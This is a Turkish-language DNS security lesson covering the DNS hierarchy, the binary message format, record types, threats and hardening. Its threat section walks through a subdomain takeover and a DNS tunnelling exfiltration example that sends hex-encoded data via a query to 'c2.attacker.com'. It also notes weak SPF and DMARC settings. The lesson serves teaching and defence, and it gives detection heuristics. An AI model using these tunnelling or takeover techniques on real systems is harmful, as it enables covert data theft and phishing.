

<!--
ÖZEL LİSANS — TÜM HAKLAR SAKLIDIR
Telif Hakkı (c) 2026 Seydi Eryılmaz (@seydivakkas)
Bu yazılım ve ilgili tüm dosyalar ("Yazılım") yalnızca görüntüleme ve eğitim amaçlıdır.
YAZARIN AÇIK YAZILI İZNİ OLMAKSIZIN HİÇBİR KULLANIM HAKKI TANINMAZ.
-->

# Gün 54: DNS Sorguları ve Kayıt Türleri — Usta Dersi

> **Eğitmen Notu:**  
> *"Evlat, interneti devasa bir metropol olarak düşünürsen, DNS bu şehrin telefon rehberidir. İnsanlar IP adresleri gibi sevimsiz sayıları akıllarında tutamaz; bu yüzden `example.com` derler. Ancak unutma: **Geleneksel DNS protokolü güven duyulmak üzere değil, yalnızca hızlı çalışmak üzere tasarlanmıştır.** Bir DNS sunucusundan aldığın yanıt, aksi kriptografik olarak ispatlanmadıkça doğrulanmış bir kimlik değildir. Bir saldırgan o telefon rehberine sahte bir numara yazarsa, bankanı aradığını sanırken kendini soyguncunun kucağında bulursun. Bugün bu rehberin ikili yapısını, kayıt türlerinin güvenlik rollerini ve DNS'in nasıl bir siber cephaneliğe dönüştüğünü öğreneceksin."*

---

## 1. Giriş: DNS Hiyerarşisi ve Dağıtık Veritabanı Mimarisi

Domain Name System (DNS - RFC 1034 / RFC 1035), internetin en büyük dağıtık ve hiyerarşik veritabanıdır. Tek bir merkezi sunucu milyarlarca alan adını yönetemez; bu nedenle sorumluluk yukarıdan aşağıya delege edilir:

```
                            [ . ] (Root Zone - 13 Kök Sunucu Kümesi)
                           /     \                 \
                    [ .com ]     [ .net ]         [ .tr ] (TLD - Üst Seviye Alan Adı)
                    /      \                            \
          [ example.com ]  [ google.com ]              [ metu.edu.tr ] (Yetkili İkinci Seviye)
          /      |      \
     [ www ]  [ api ]  [ mail ]                         (Alt Alan Adları - Subdomains)
```

### Yinelemeli (Recursive) vs Yetkili (Authoritative) Sorgulama
1. **İstemci (Stub Resolver):** Bilgisayarınız yerel ağdaki DNS çözümleyicisine (örn. `8.8.8.8` veya şirket DNS sunucusu) "Bana `api.example.com`'un IP'sini ver" der (Yinelemeli Sorgu - Recursive Query).
2. **Çözümleyici (Resolver):** 
   - Önce Kök Sunucuya (`.`) sorar: Kök sunucu `.com` TLD sunucusunun IP'sini döner.
   - Sonra `.com` TLD sunucusuna sorar: TLD sunucusu `example.com`'un Yetkili Ad Sunucusunun (Authoritative NS) IP'sini döner.
   - Son olarak `example.com` Yetkili Sunucusuna sorar ve nihai A/AAAA kaydını alır.
   - Yanıtı istemciye dönmeden önce TTL süresince kendi önbelleğinde (cache) saklar.

---

## 2. RFC 1035 İkili DNS Mesaj Formatı ve Etiket Kodlama

DNS mesajları taşıma katmanında (genellikle UDP Port 53) ikili (binary) bir formatta iletilir. Mesajın ilk **12 baytı sabit başlıktır**:

```text
 0                   1                   2                   3
 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|          Transaction ID       |QR| Opcode |AA|TC|RD|RA| Z |RCODE|
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|            QDCOUNT            |            ANCOUNT            |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|            NSCOUNT            |            ARCOUNT            |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

### Başlık Alanlarının Teknik İncelemesi:
- **Transaction ID (16-bit):** İstemcinin sorgu ile yanıtı eşleştirmesi için ürettiği rastgele kimlik numarasıdır. (Kaminsky saldırısının birincil hedefidir).
- **Bayraklar (Flags - 16-bit):**
  - **QR (1 bit):** 0 = Sorgu (Query), 1 = Yanıt (Response).
  - **Opcode (4 bit):** 0 = Standart sorgu, 1 = Ters sorgu.
  - **AA (1 bit):** Authoritative Answer (Yanıt yetkili sunucudan mı geldi?).
  - **TC (1 bit):** Truncated (Paket 512 baytı aştı, kesildi; TCP ile tekrar dene!).
  - **RD (1 bit):** Recursion Desired (Yineleme istiyorum).
  - **RA (1 bit):** Recursion Available (Sunucu yinelemeyi destekliyor).
  - **RCODE (4 bit):** Yanıt Kodu (0 = NoError, 3 = NXDomain / Alan Adı Yok, 5 = Refused).

### Alan Adı Etiketleme (Length-Prefixed Labels):
DNS protokolünde noktalar (`.`) doğrudan iletilmez. Her etiket kendi bayt uzunluğuyla öneklenir ve en son `0x00` (kök) baytı ile sonlandırılır:
$$\text{"api.example.com"} \rightarrow \text{[0x03] 'a' 'p' 'i' [0x07] 'e' 'x' 'a' 'm' 'p' 'l' 'e' [0x03] 'c' 'o' 'm' [0x00]}$$
- **RFC 1035 Kuralı:** Tek bir etiket en fazla **63 bayt**, toplam alan adı ise en fazla **253 bayt** olabilir.

---

## 3. Kritik Kaynak Kaydı (Resource Record) Türleri

| Kayıt Türü | Kod | Taşınan Veri | Güvenlik ve Mimari Önemi |
|---|---|---|---|
| **A** | 1 | 32-bit IPv4 Adresi | İsim-IP çözümlemesinin belkemiğidir. Yanıltılırsa (spoofing) trafik sahte sunucuya akar. |
| **AAAA** | 28 | 128-bit IPv6 Adresi | IPv6 ağları için zorunludur. IPv4 güvenliği tam olsa bile açık bırakılan AAAA kayıtları saldırı vektörüdür. |
| **CNAME** | 5 | Kanonik / Takma Ad | Bir alan adını başka bir alan adına yönlendirir. Sahipsiz bırakılırsa **Subdomain Takeover** felaketine yol açar. |
| **MX** | 15 | Öncelik + Posta Sunucusu | E-postaların nereye teslim edileceğini belirler. Düşük öncelik numarası daha yüksek önceliği ifade eder. |
| **TXT** | 16 | Serbest Metin | Modern e-posta güvenliği (SPF, DKIM, DMARC) ve etki alanı sahiplik doğrulaması için kullanılır. |
| **NS** | 2 | Yetkili Ad Sunucusu | Alan adının DNS bölge yetkisinin kime ait olduğunu belirtir. Yetkisiz bölge transferine (AXFR) karşı korunmalıdır. |
| **SOA** | 6 | Bölge Başlangıç Bilgisi | Seri numarası, yenileme (refresh), yeniden deneme (retry) ve negatif TTL sürelerini tutar. |

---

## 4. Tehdit Modeli ve Siber Saldırı Vektörleri

Geleneksel DNS protokolü (UDP 53) şifresiz ve imzasız olduğu için siber saldırganların en çok hedef aldığı protokollerdendir:

### A. Subdomain Takeover (Sahipsiz CNAME İstismarı)
Şirketler geçici kampanyalar veya bloglar için bulut sağlayıcıları (AWS S3, GitHub Pages, Azure, Heroku) kullanırlar.  
- DNS kaydı: `blog.example.com CNAME kurban-sirket.s3-website-us-east-1.amazonaws.com`.
- Kampanya biter, pazarlama ekibi AWS S3 deposunu siler; **fakat BT ekibi DNS'teki CNAME kaydını silmeyi unutur!**
- Saldırgan `kurban-sirket.s3-website-us-east-1.amazonaws.com` adıyla kendi adına bir S3 deposu açar.
- Artık `blog.example.com`'a giren tüm kullanıcılar saldırganın sayfasına ulaşır; saldırgan şirket çerezlerini çalar veya oltalama (phishing) yapar!

### B. DNS Tünelleme ve Veri Sızıntısı (DNS Tunneling)
Kurumsal güvenlik duvarları HTTP, SSH, FTP gibi dışarı giden tüm çıkışları engelleyebilir; ancak DNS çözümlemesi (UDP 53) çalışmak zorundadır.  
Saldırgan içerideki zararlı yazılımdan gizli veriyi şu şekilde kaçırır:
1. Veriyi hex veya base64 ile kodlar: `48656c6c6f576f726c64 (HelloWorld)`.
2. Alt alan adı olarak sorgu atar: `48656c6c6f576f726c64.c2.attacker.com`.
3. Kurumsal DNS sunucusu bu sorguyu çözerken saldırganın yetkili ad sunucusuna kadar iletir.
4. Saldırgan gelen sorgunun başındaki veriyi birleştirerek şirket içindeki veriyi tüneller!
- **Tespit Yolu:** Alt alan adı etiketlerinin uzunluğu ($>30$ karakter) ve **Shannon Entropisi** ($\ge 2.8$ bit) incelenerek anında alarm üretilir.

### C. E-posta Sahteciliği (SPF ve DMARC Zaafiyetleri)
Saldırganlar şirketin e-posta sunucusunu taklit ederek CEO adına sahte fatura gönderebilir (Business Email Compromise - BEC).  
- **SPF (Sender Policy Framework):** Hangi IP'lerin bu alan adına e-posta atabileceğini tanımlar. `+all` veya `?all` kullanılırsa koruma sıfırdır; mutlaka `-all` (HardFail) kullanılmalıdır.
- **DMARC (Domain-based Message Authentication):** SPF ve DKIM başarısız olduğunda ne yapılacağını alıcı sunucuya söyler. `p=none` yalnızca izler; sahte e-postayı durdurmak için `p=reject` şarttır!

---

## 5. Savunma Mimarisi ve Sıkılaştırma İlkeleri



1. **DNSSEC (RFC 4033/4034/4035):** Alan adınızın tüm kayıtlarını (A, MX, TXT) asimetrik anahtarlarla (RRSIG ve DNSKEY) imzalayın. Böylece aradaki hiçbir aktör sahte yanıt enjekte edemez.
2. **DoH (DNS over HTTPS) ve DoT (DNS over TLS):** İstemci ile çözümleyici arasındaki sorguları TLS tüneli içine alarak yerel ağ dinlemelerini (Sniffing) ve ISS manipülasyonlarını engelleyin.
3. **Sahipsiz CNAME Denetimi:** Bulut kaynaklarını silmeden önce mutlaka ilişkili DNS kayıtlarını temizleyin; periyodik dangling CNAME taramaları yapın.
4. **DNS Tünelleme İzleme:** SIEM ve NDR (Network Detection & Response) sistemlerinde DNS sorgularının etiket uzunluğu, sorgu frekansı ve entropi değerlerini izleyin.
